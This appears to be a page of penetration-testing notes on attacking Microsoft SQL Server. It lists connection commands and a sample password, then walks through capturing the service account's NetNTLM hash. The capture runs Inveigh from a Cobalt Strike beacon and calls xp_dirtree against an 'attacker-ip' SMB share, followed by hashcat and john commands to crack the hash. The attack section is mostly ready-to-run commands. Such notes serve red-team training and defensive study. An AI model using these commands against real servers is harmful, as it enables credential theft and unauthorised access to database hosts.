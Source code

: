 There are different ways to access to a MSSQL Server, but we can access when a user have sysadmin role for the instance.

* PowerUpSQL:

```powershell
Get-SQLQuery -Instance "mssql.corp.io,1443" -Query "select @@servername"

Column1
-------
MSSQL 
```

* mssqlclient.py:

```
python3 mssqlclient.py -windows-auth CORP/bob@10.10.10.10
```

* sqsh:

```
sqsh -S 10.10.10.10 -U bob -P P@ssw0rd! -D databaseName
```

* HeidiSQL:

Windows SQL GUI tool.

![Heidi SQL](/hackingnotes/images/heidisql.png)

# MSSQL NetNTLM Capture

MSSQL have some procedures, `xp_dirtree` can be used to capture the NetNTLM hash of the principal being used to run the MSSQL Service.

We can use `Inveigh` to capture the NetNTLM hash.

```
beacon> execute-assembly C:\Tools\Inveigh.exe -DNS N -LLMNR N -LLMNRv6 N -HTTP N -FileOutput N
```
After starting the Listener, we can execute the `xp_dirtree` procedure and list a smb share of our listener.

```
EXEC xp_dirtree '\\attacker-ip\pwn', 1, 1
```

Finally we can crack the hash with hashcat or john.

* Hashcat

```
hashcat -a 0 -m 5600 mssql.hash wordlist
```

* John

```
john --format=netntlmv2 --wordlist=wordlist mssql.hash
```

